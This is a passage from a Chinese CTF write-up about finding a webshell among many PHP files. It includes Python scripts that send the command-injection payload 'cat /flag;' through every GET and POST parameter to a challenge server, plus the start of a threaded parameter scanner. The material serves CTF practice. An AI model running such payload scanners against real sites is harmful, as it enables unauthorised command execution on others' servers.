 ```python
            php=r'=cat /flag;'
            #print(line[start1+12:end])
            GET=file+'?'+line[start1+7:end]+php
            time.sleep(0.05)
            r=requests.get(url+GET)
            if('flag'in r.text):
                print(line)
                print(GET)
                exit('you get the flag!!!')
                print(r.text)
            else :
                print('no')
                print(url+GET)
        start2=line.find("$_POST[")
        if start2!=-1:
            #print(line)
            end=line.find("']")
            POST=line[start2+8:end]
            data={f'{POST}':'cat /flag;'}
            time.sleep(0.05)
            r=requests.post(url=url+file,data=data)
            if('flag'in r.text):
                print(line)
                print('you get the flag!!!')
                exit(0)
            else :
                print('no')
                print(url+POST)
```

然后跑了十几分钟就跑完了，什么也没有

在我测试了许久确定我的脚本没有问题之后，就去看了WP
原来题目的意思是，只要有`$_GET`或者`$_POST`的都算马
上面的脚本就是按这个来的，也就是按这样来的话，我跑到环境结束也跑不出来
就直接看了是哪个文件的马，单独测试了一下发现脚本没问题就🆗了
贴一个大佬的巨快速脚本，要是没有429就好了😫

```python
import requests
import os
import re
import threading
import time

session = requests.Session()   
session.keep_alive = False  # requests默认使用urllib3库，默认是长连接，改为false,关闭多余的连接
requests.adapters.DEFAULT_RETRIES = 8  # 设置重连次数，防止线程数过高，断开连接
sem = threading.Semaphore(30)  # 设置最大线程数 ,别设置太大，不然还是会崩的挺厉害的，跑到关键的爆炸，心态就爆炸了

url = "http://2fd5d67b-3795-4fd9-a545-d7dc79a145ff.node4.buuoj.cn:81/"


path = r"E:\phpstudy_pro\WWW\test\src"+"\\"

rrGET = re.compile(r"\$_GET\[\'(\w+)\'\]")  # 匹配get参数，w 匹配任何字母和数字还有下划线，+ 匹配+之前的1次或多次

rrPOST = re.compile(r"\$_POST\[\'(\w+)\'\]")  # 匹配post参数

fileNames = os.listdir(path)  # 列出目录中的文件,以每个文件都开一个线程

flags = []  # 用于存所有的注入点信息,下面的flag表示注入点的信息，php文件名和参数名

local_file = open("flag.txt", "w", encoding="utf-8")
```